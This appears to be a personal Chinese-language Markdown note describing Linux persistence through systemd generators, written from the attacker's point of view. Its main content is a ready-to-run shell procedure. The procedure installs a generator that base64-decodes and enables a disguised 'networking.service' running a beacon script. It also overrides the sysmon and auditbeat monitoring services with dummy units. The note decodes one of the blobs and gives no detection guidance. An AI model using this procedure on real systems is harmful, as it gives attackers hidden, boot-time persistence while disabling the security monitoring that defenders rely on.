 ```yaml
---
tags:
  - 操作系统
  - Linux
  - Systemd
参考: https://pberba.github.io/security/2022/02/07/linux-threat-hunting-for-persistence-systemd-generators/
updateTime: 2025-04-11 16:48
---
```

Boot or Logon Initialization Scripts: systemd-generators  

它有什么优点呢？它在引导阶段运行地非常早——在所有服务执行之前运行，因此可以避免被通过查看日志揪出来，更进一步可以篡改相关服务  

所以通过它，我们可以达成两个目标：

- 创建恶意服务  
- 篡改监视服务  

## 1. 一个例子  

**前提**：在这个位置（也就是服务中ExecStart中具体指向的位置）有我们的恶意脚本`/opt/beacon.sh`  

**我们要做的：**创建`/lib/systemd/system-generators/systemd-network-generator`这个脚本，这样我们就可以达成以下目标：  

- 创建一个服务文件`/run/systemd/system/networking.service`  
- 创建符号链接`/run/systemd/system/multi-user.target.wants/networking.service` 以激活(enable)服务  
- 创建一个 `sysmon.service` 和 `auditbeat.service` 来覆盖原服务文件  

在控制台执行以下操作：  

```shell
cat > /usr/lib/systemd/system-generators/systemd-network-generator << EOF
#! /bin/bash

# Create networking.service and enabling it to run later in the boot process
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPW5ldHdvcmtpbmcuc2VydmljZQoKW1NlcnZpY2VdCkV4ZWNTdGFydD0vb3B0L2JlYWNvbi5zaAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/system/networking.service

mkdir -p /run/systemd/system/multi-user.target.wants/
ln -s /run/systemd/system/networking.service /run/systemd/system/multi-user.target.wants/networking.service


# Create adds dummy service unit files to overwrite sysmon.service and auditbeat.service
mkdir -p /run/systemd/generator.early
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPSJTa2lwcGVkIgoKW1NlcnZpY2VdCkV4ZWNTdGFydD1lY2hvICJTa2lwcGVkIgoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/generator.early/sysmon.service
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPSJTa2lwcGVkIgoKW1NlcnZpY2VdCkV4ZWNTdGFydD1lY2hvICJTa2lwcGVkIgoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/generator.early/auditbeat.service
EOF

chmod +x /lib/systemd/system-generators/systemd-network-generator
```



里面的base64码翻译过来就是实际上某个`.service`文件中的内容，比如：  

`W1VuaXRdCkRlc2NyaXB0aW9uPW5ldHdvcmtpbmcuc2VydmljZQoKW1NlcnZpY2VdCkV4ZWNTdGFydD0vb3B0L2JlYWNvbi5zaAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0`就是

```shell
[Unit]
Description=networking.service

[Service]
ExecStart=/opt/beacon.sh

[Install]
WantedBy=multi-user.target
```

下次重启后，就可以运行我们的恶意服务`networking.service`了  

- 可以通过`systemctl status networking`来查看状态
